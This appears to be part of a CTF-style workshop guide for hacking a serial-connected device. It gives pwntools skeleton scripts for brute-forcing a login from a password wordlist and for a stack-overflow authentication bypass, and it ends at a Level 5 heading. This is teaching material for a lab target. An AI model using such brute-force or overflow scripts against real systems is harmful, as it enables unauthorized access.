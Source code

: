 ## Level 3 Brute

In this challenge you have to brute force a login. The solution follows a similar pattern to Level 2 Simon Says. That is, use pwntools to programtically attempt logins with the provided password word list.

Here is a skeleton program to get you started

```
#!/usr/bin/python3

from pwn import *

io = serialtube('/dev/ttyUSB0', baudrate=9600, convert_newlines = False)

io.sendline("")
with open("passwords.txt") as f:
    for password in f.readlines():
        line = io.recvuntil(b"PASSWORD: ")
        print(line.decode("utf-8"))
        print("Trying password " + password)
        io.sendline(password)
        print(io.readline().decode("utf-8"))
        line = io.readline()
        print(line.decode("utf-8"))
        if line.find(b"INCORRECT") < 0:
           ## Finish this code
```

## Level 4 Stack Smash

This level has a stack overflow. If you select the contents of the buffer correctly, you can bypass the authentication.

Try the following code as a template. When you know what you have to modify the buffer to, fix the exploit and grab the flag.

```
#!/usr/bin/python3

from pwn import *

io = serialtube('/dev/ttyUSB0', baudrate=9600, convert_newlines = False)

io.sendline("")
line = io.recvuntil(b"PASSWORD: ")
print(line.decode("utf-8"))
io.sendline(b"abcdefghijklmnopqrstuvwxyz" )
while True:
    print(io.recvline().decode("utf-8"))
```

## Level 5 Function

